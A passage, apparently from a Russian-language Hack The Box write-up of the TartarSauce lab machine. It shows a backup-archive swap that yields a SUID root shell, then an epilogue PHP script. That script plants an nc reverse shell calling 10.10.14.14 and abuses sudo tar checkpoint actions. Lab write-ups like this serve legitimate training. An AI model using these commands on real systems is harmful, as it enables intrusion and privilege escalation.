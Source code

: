 И подменяем бэкап:
```text
onuma@TartarSauce:/tmp$ cp suid.tar.gz /var/tmp/.7bd9d1b85480847307593e29d70d7b3286d3b586
```

4\. После ожидания в 30 секунд проверяем существование временной директории `/var/tmp/check`, запускаем шелл и забираем свое:
```text
onuma@TartarSauce:/tmp$ cd /var/tmp/
onuma@TartarSauce:/var/tmp$ ls
check                                                                              systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
systemd-private-04b0d1852f684988a72ce63bf6aa6163-systemd-timesyncd.service-rF9I4i  systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS  systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ

onuma@TartarSauce:/var/tmp$ cd check/
onuma@TartarSauce:/var/tmp/check$ ls
var

onuma@TartarSauce:/var/tmp/check$ cd var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
suid

onuma@TartarSauce:/var/tmp/check/var/www/html$ ./suid
bash-4.3# whoami
root

bash-4.3# id
uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

```text
bash-4.3# cat /root/root.txt
e79abdab8b??????????????????????
```

TartarSauce пройден :triumph:

![owned-user.png](/assets/images/htb/machines/tartarsauce/owned-user.png)
{:.center-image}

![owned-root.png](/assets/images/htb/machines/tartarsauce/owned-root.png)
{:.center-image}

![trophy.png](/assets/images/htb/machines/tartarsauce/trophy.png)
{:.center-image}

# Эпилог
## wp-load.php
Чтобы дважды не настраивать шелл, сэкономим себе время, написав такой php-скрипт, позволяющий сразу "прыгать" на пользователя *onuma* при триггере RFI-уязвимости WP-плагина:
```php
<!-- wp-load.php -->

<?php
  system("echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f' > /dev/shm/.sh3ll.sh");
  system("cd / && sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='bash /dev/shm/.sh3ll.sh'");
?>
```